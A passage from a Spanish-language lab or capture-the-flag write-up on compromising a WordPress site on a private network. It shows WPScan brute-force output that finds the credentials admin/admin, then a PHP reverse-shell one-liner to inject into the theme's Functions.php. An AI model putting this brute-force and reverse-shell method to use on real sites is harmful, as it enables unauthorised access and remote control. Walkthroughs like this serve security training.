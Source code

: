 ```
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.5.173/secret/, Match: 'WordPress 4.9.25'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==============================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / admin                                                                                                                                    
Trying admin / akusayangkamu Time: 00:02:39 <                                                                      > (19820 / 14364212)  0.13%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: admin

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Jun  7 10:14:44 2024
[+] Requests Done: 19961
[+] Cached Requests: 29
[+] Data Sent: 6.768 MB
[+] Data Received: 70.162 MB
[+] Memory used: 226.145 MB
[+] Elapsed time: 00:02:44
```

Por lo que vemos las credenciales como bien dije antes son las de por defecto...

```
User = admin
Password = admin
```

Una vez dentro del `Wordpress` nos vamos a la pestaña `Themes` y en la casilla `Editor` dentro de este entorno veremos un archivo para editar llamado `Functions.php` el cual inyectaremos una `Reverse Shell` de la siguiente manera...

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Una vez inyectado esto, le damos a guardar los cambios al boton `Update File` y estando a la escucha anteriormente...
